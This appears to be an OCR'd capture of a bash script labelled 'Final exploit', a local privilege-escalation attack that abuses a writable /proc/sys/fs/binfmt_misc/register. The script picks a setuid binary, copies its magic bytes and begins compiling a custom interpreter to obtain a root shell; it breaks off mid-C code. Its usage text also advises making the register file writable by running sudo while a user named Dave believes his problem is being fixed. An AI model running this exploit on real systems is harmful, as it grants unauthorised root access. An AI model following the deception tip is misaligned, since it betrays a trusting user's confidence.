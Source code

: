 Final exploit:
```bash
#!/bin/bash

readonly searchsuid="/bin/"
readonly mountpoint="/proc/sys/fs/binfmt_misc"
readonly exe="$0"


warn()
{
    1>&2 echo $@
}

die()
{
    warn $@
    exit -1
}

usage()
{
    cat 1>&2 <<EOF
Usage: $exe
    Gives you a root shell if /proc/sys/fs/binfmt_misc/register is writeable,
    note that it must be enforced by any other mean before your try this, for
    example by typing something like "sudo chmod +6 /*/*/f*/*/*r" while Dave is
    thinking that you are fixing his problem.
EOF
    exit 1
}

function pick_suid()
{
	find "$1" -perm -4000 -executable \
	    | tail -n 1
}

function read_magic()
{
    [[ -e "$1" ]] && \
    [[ "$2" =~ [[:digit:]]+ ]] && \
    dd if="$1" bs=1 count="$2" status=none \
        | sed -e 's-\x00-\\x00-g'
}

[[ -n "$1" ]] && usage

target="$(pick_suid "$searchsuid")"
test -e "$target" || die "Error: Unable to find a suid binary in $searchsuid"

binfmt_magic="$(read_magic "$target" "126")"
test -z "$binfmt_magic" && die "Error: Unable to retrieve a magic for $target"

fmtname="$(mktemp -u XXXX)"
fmtinterpr="$(mktemp)"

gcc -o "$fmtinterpr" -xc - <<- __EOF__
	#include <stdlib.h>
	#include <unistd.h>
	#include <stdio.h>
	#include <pwd.h>

	int main(int argc, char *argv[])
```